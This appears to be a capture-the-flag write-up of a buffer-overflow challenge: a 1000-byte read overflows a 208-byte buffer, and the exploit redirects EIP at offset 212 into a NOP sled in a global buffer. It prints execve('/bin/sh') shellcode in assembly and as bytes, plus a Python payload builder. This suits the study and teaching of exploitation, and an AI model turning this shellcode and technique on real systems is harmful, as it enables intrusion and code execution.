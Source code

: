 ## Challange
Inject a shellcode and get read the flag.
## Solution
First by using ghidra decompile the file and inside the `get_name(buffer)` function there is an overflow. Since the buffer declared in `prog()` has a size of 208 but the `read` in `get_name` takes 1000 characters which are copied in the buffer prog reference.
There is a problem: if in the first 1000 characters there is a `\0` (EOF) the loop break and is impossible to return.
To solve:
1. Since is a x86 architecture we use `cyclic 1000` to generate a pattern and find when overflow the EIP. We get invalid address in EIP of value `0x63616164`, by doing `cyclic -l 0x63616164` we get the offset of 212. The first part of our payload will be `"A"*212`.
2. By inspecting ghidra we find the address of the buffer (the global one), stored in the .bss section `0x804c060`. Since our shellcode requires `\x00` after the string `/bin/sh` we can't put the shellcode in the begin otherwise the read will truncate the exploit, so we put it in the end, check step 3.
The address that will overwrite EIP will be `0x804C13A` which is the base address of the buffer plus 212 and something else. In this way the return will jump in the final portion of the explit, where is the shellcode.
3. Until now we have `"A"*212 + p32(0x804C13A)`. We still need padding to reach 1000 characters and the shellcode. To do so, we write first the shellcode:

    ```assembly
    jmp binsh
    back:
    xor eax, eax
    mov al, 0xb
    pop ebx
    xor ecx, ecx
    xor edx, edx
    int 0x80

    binsh:
    call back
    nop
    nop
    ```
    In `ebx` there will be the address of the first nop after `call back`. In python we'll substitute `\x90` with `/bin/sh`.
    After the address we put `\x90` to reach `1004-len(shellcode)`(`-4` because the 0's after `/bin/sh`) and then the shellcode. Since the EIP is pointing in one of the `\x90` position, after return these will be executed and eventually do also the shellcode. The final payload:
    ```python
    shellcode = b"\xEB\x0B\x31\xC0\xB0\x0B\x5B\x31\xC9\x31\xD2\xCD\x80\xE8\xF0\xFF\xFF\xFF/bin/sh\x00\x00\x00\x00"
    payload = b"A"*212 + p32(0x804C13a)
    payload = payload.ljust(1004-len(shellcode),b"\x90") + shellcode
    ```
